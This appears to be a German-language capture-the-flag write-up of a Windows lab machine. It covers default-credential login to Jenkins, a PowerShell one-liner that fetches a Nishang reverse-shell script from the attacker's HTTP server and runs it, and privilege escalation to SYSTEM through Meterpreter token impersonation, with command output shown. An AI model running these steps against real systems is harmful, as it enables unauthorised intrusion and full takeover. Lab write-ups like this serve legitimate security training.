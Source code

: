 Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).


# Ziel: 10.10.2.172

# Initial Access
## Scanning 

Nmap 
80/tcp   open  http           Microsoft IIS httpd 7.5
3389/tcp open   ms-wbt-server?
8080/tcp open  http           Jetty 9.4.z-SNAPSHOT


## Exploiting 
Login Page für Jenkins unter 10.10.38.83:8080 gefunden

Test von Default user&Passwort 
admin:admin
->  Erfolgreicher login

von THM Kommentar 

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: _powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.242.69:8000/Invoke-PowershellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.242.69 -Port 4444
```

->  Rev Shell anbieten auf eigenen http server
->  Feature finden um die Shell auf dem ziel zu laden
-> Rev Shell mit NC fangen

Shell auf http Server anbieten: 

```
python3 -m http.server
```

-> webserver auf localip:8000

http://10.10.242.69:8000/Invoke-PowershellTcp.ps1

-> Upload Möglichkeit via Project Configure gefunden ->  Auch Ausführung möglich
->  Rev Shell erhalten
-> User alfred\bruce


# Priv Escalation

Hier wird vorgegeben das wir token impersination nutzen werden

Zuerst gilt  es hier zu schauen welche Berechtigungen wir haben via: 

```
PS C:\Program Files (x86)\Jenkins\workspace\project> whoami /priv


PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled

```

Hier intressant zu sehen sind die beiden 'SeDebugPrivilege, SeImpersonatePrivilege)'.  Durch SeImpersonatePrivilige können wir unsere rechte potenziell erweitern. Jetzt gilt es zu schauen welche User Tokens für uns zur Verfügung stehen. (der Einfachkeit halber hanbe ich auf eine Merterpreter shell in Metasploit gewechselt.)

```
meterpreter > list_tokens -g


[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available

```

Hier sehen wir das wir u.A. den "BUILTIN\Administrators" token haben. diesen nutzen wir jetzt um Admin rechte zu erhalten. Zuerst laden wir hier dafür das Meterpreter Modul "incognito"

```
meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM


meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
